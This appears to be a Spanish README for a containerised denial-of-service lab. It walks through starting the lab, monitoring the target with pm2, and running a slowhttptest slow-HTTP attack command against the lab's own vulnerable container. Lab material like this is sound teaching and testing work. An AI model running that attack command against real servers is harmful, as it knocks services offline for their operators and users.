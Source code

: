 # Laboratorio de ataque DOS

## Uso

1. clonar el repositorio.
2. crea una copia del archivo *".example.env.prod"* llamada .env.prod y completalo con datos validos.
3. levantar la aplicación.

   ```bash
   docker compose --env-file .env.prod up
   ```
4. Accede a la consola del contendor a atacar.

   ```bash
   docker exec -it attacked-vuln sh
   ```
5. Ejecuta el monitor de pm2.

   ```bash
   pm2 monit
   ```
6. Accede a la consola del contendor atacante.

   ```bash
   docker exec -it attacker /bin/bash
   ```
7. Ejecuta el ataque.

   ```bash
   slowhttptest -c 100 -H -g -o slowhttp -i 3 -r 100 -t GET -u http://attacked-vuln:3004 -x 50 -p 3
   ```
